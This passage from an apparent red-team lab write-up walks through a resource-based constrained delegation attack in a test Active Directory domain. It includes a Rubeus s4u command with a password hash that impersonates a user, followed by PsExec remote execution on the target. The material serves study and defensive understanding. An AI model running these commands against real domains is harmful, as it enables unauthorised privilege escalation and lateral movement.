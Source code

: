 Once again, checking kerberos tickets on the system showed that I had a TGS ticket for `spotless` for the CIFS service at `ws01.offense.local`, but the attack still did not work:

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-01-23.png>)

### Trial and Error

Talking to a couple of folks who had successfully simulated this attack in their labs, we still could not figure out what the issue was. After repeating the the attack over and over and carrying out various other troubleshooting steps, I finally found what the issue was.

Note how the ticket is for the SPN `cifs/ws01.offense.local` and we get access denied when attempting to access the remote admin shares of `ws01`:

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-16-17.png>)

### Computer Take Over

Note, howerver if we request a ticket for SPN `cifs/ws01` - we can now access `C$` share of the `ws01` which means we have admin rights on the target system `WS01`:

```csharp
\\VBOXSVR\Tools\Rubeus\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt
```

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-31-17.png>)

To further prove we have admin rights - we can write a simple file from `ws02` to `ws01` in c:\users\administrator:

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-36-35.png>)

Additionally, check if we can remotely execute code with our noisy friend psexec:

```csharp
\\vboxsvr\tools\PsExec.exe \\ws01 cmd
```

![](<../../.gitbook/assets/Screenshot from 2019-03-31 13-44-20.png>)

{% hint style="warning" %}
Note that the `offense\spotless` rights are effective only on the target system - i.e. on the system that delegated (`WS01`) another computer resource (`FAKE01`) to act on the target's (`WS01`) behalf and allow to impersonate any domain user.

In other words, an attack can execute code/commands as `offense\spotless` only on the `WS01` machine and not on any other machine in the domain.
{% endhint %}

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/" %}
@spotheplanet
